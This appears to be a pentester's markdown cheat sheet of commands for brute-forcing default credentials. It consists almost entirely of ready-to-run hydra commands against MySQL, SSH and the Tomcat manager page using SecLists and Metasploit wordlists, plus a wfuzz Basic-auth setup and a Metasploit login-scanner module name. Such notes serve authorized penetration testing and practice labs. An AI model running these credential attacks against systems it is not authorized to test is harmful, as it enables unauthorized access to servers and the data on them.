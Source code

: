 # brute force default credentials

## mysql
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```

## ssh
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -e nsr -t 1 $IP ssh
```

## tomcat
colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-s PORT   if the service is on a different default port, define it here
```bash
hydra -s 8080 -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

### wfuzz
header `Authorization: Basic FUZZ`
/usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt

### metasploit
auxiliary/scanner/http/tomcat_mgr_login
